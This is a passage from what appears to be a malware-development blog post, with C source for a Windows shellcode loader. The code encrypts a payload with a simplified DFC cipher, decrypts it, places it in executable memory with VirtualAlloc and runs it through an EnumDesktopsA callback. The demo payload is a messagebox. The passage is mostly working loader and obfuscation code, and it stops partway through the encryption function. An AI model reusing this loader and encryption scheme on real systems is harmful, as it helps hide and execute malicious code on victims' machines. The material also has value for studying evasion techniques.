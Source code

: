 ```cpp
  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

As you can, see in the main function I just encrypted/decrypted `meow-meow` messagebox payload.     

Full source code `hack.c`:     

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via DFC (Decorrelated Fast Cipher) algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/10/malware-cryptography-34.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8       // DFC uses 8 rounds of encryption
#define BLOCK_SIZE 16  // DFC operates on 128-bit (16-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][16];

// rotate left function
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}

// function F for DFC round (simplified for illustration)
uint32_t F(uint32_t left, uint32_t key_part) {
  return rotl(left + key_part, 3) ^ key_part;
}

// DFC G function applies Feistel structure in each round
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempRight = *right;
  *right = *left ^ F(*right, *(uint32_t*)roundKey);
  *left = tempRight;
}

// key schedule for DFC
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 16; j++) {
      K[i][j] = key[j % 8] ^ (i + j);  // generate subkey for each round
    }
  }
}

// DFC encryption function
void dfc_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
```